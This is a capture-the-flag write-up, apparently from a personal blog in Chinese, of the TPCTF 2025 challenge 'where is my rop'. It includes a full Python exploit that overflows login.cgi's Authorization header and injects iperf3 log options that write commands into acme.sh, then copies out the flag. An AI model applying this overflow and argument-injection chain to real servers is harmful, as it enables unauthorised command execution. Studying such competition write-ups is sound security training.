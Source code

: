 ```yaml
---
title: TPCTF 2025 - where is my rop
date: 2025/03/11 10:12:00
updated: 2025/03/11 10:12:00
tags:
    - shell jail
    - buffer overflow
    - remote debugging
    - httpd
thumbnail: /assets/tpctf2025/cmdConfusion.png
excerpt: 利用`login.cgi`的Authorization头溢出漏洞，通过构造payload实现命令注入，最终获取flag。
---
```


> very nice apache, love from cgi

{% note green fa-heart %}
本题由我和 *dbgbgtf* 共同完成
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

哪有什么rop，我只看到了命令注入。

分别分析了`basement`、`login.cgi`、`logout.cgi`、`gen_enc`，后两者代码很短，
看不出什么明显的漏洞。前三者都使用`/tmp/tpctf.sock`这个`AF_UNIX`socket来进行进程间通信。
其中`basement`中有命令执行，我们可以控制一些参数，但是对大多数符号做了过滤，
几乎没有绕过的方式，并且在`login.cgi`中没有明显的控制方式。

然后 *dbgbgtf* 发现了`login.cgi`在处理`Authorization`头时，程序校验完base64字符串，
并没有检查其长度。随后程序将`Basic `后的信息做base64解码并放到`char auth_buf[0x200]`上，
这一块数据位于bss上，并与`cmd`相邻。通过写入很长的base64的Authorization，可以覆盖`cmd`，
在`sendcmd`的时候可以实现发送任意指令。

{% notel green fa-cloud-arrow-up 在容器中调试 %}
本题的环境比较复杂，不方便在本地调试，可以在启动容器后，在其中安装gdbserver，
然后编写一个前置的cgi来代理login，方便在login被拉起的时候用gdb连上去：

```sh /var/www/cgi-bin/prelogin.cgi
#!/bin/sh
gdbserver 127.0.0.1:1337 login.cgi "$@"
```
{% endnotel %}

在socket中传输的数据大约是按照0x80来切块的，而数据是从Authorization中按`:`分割拿到的，
我们可以轻松控制。对于冒号之间字段长度的检验，除了最后一个字段，其他字段均需小于0x80，
亦即最后一个字段可以无限长。

观察命令执行中所禁止的字符，包括`\n & $ ; < > ^ |`和<code>&grave;</code>，
但是空格等字符没有拦截，会不会内置的命令可以利用的呢？使用`man`查看`ping`，
`traceroute`和`iperf3`，其中`iperf3`的客户端有`-T`和`--logfile`两个特殊选项，
第一个是在输出的所有行之前添加一个自己的title，第二个是将输出附加到某个文件中。
查看容器中的`acme.sh`，其中啥也没干，就很适合用来作为脚本的载体。通过先启动`iperf3`服务端，
然后用空格、引号等指导`iperf3`客户端向`acme.sh`中写入命令，就可以通过任意acme命令触发脚本。
比如说在`acme.sh`中写入`cp /*flaG* /var/www/html/flag.html`，执行后就可以将flag写入到html目录下，
这样访问`/flag.html`就可以拿到flag。

{% notel blue fa-file-circle-exclamation flag的名字是？ %}
赛后交流发现本题出网，因此有的师傅通过iperf3的文件将flag传出去。当然我这个解法不出网，
应该更加符合出题人的想法。只是没想到flag名称相比给的附件变得有点多，
先用`find / -maxdepth 1 -fprint /var/www/html/ls.html`列出有哪些文件，通过curl获取：

<img src="/assets/tpctf2025/remotels.png" width="20%" height="20%">

一开始完全没想到g大写了，有点离谱... ~~才不是因为没有想到直接`/*f*`就行了~~
{% endnotel %}

最后考虑怎样构造payload：由于我们修改了要执行的`cmd`，因此分支会相较我们的原动作有差异。
由于`cmd`非`LOGIN`和`REGISTER`，最终会走 **reset_password** 的逻辑，
因此在我们的Authorization中需要3个`:`才能成功执行`sendcmd`。

![confusion](/assets/tpctf2025/cmdConfusion.png)

## EXPLOIT

```python
from pwn import *
import requests
import base64
from enum import Enum
BLUE_TEXT = lambda x: f'\x1b[34m{x}\x1b[0m'

class Commands(Enum):
    LOGIN =          1
    UPDATE_PASSWD =  2
    REGISTER =       3
    NEW_SESSION =    4
    DELETE_SESSION = 5
    IPERF3_SERVER =  6
    PING =           7
    TRACEROUTE =     8
    IPERF3_CLIENT =  9
    ACME_APPLY =    10
    ACME_RENEW =    11
    ACME_REVOKE =   12

def payload(lo: int):
    global sh, session_id
    if lo:
        host, port = '127.0.0.1', 80
    else:
        host, port = '61.147.171.105', 65519

    def new_session() -> str:
        url = f"http://{host}:{port}/cgi-bin/gen_enc"
        response = requests.get(url)
        return response.text[12:-14] # extract id from response
    
    def arbcmd(arg1: str, arg2: str, cmd: Commands):
        global session_id
        # last field can be extremely long
        auth = f"{arg1}:{arg2}:randstuff:".ljust(0x200).encode() + p8(cmd.value)
        headers = {
            'Authorization': f"Basic {base64.b64encode(auth).decode()}",
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        url = f"http://{host}:{port}/cgi-bin/login.cgi?reset_password"
        response = requests.post(url, f"id={session_id}", headers=headers)
        assert response.text # wait for data to come

    session_id = new_session()
    info(f"Fetch new session: {session_id}")

    info(f"{BLUE_TEXT(Commands.IPERF3_SERVER.name)} Launching iperf3 server...")
    arbcmd('127.0.0.1', '1337', Commands.IPERF3_SERVER)

    info(f"{BLUE_TEXT(Commands.IPERF3_CLIENT.name)} Injecting command into acme.sh...")
    # arbcmd('127.0.0.1', '1337 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)
    # why the flag name is so strange???
    arbcmd('127.0.0.1', '1337 -T "cp /*flaG* /var/www/html/flag.html #" --logfile /root/.acme.sh/acme.sh', Commands.IPERF3_CLIENT)

    info(f"{BLUE_TEXT(Commands.ACME_APPLY.name)} Triggering acme.sh...")
    arbcmd(' ', ' ', Commands.ACME_APPLY)

    url = f"http://{host}:{port}/flag.html"
    response = requests.get(url)
    success(f"Flag is: {response.text.strip()}")
```

![flag](/assets/tpctf2025/flag.html.png)
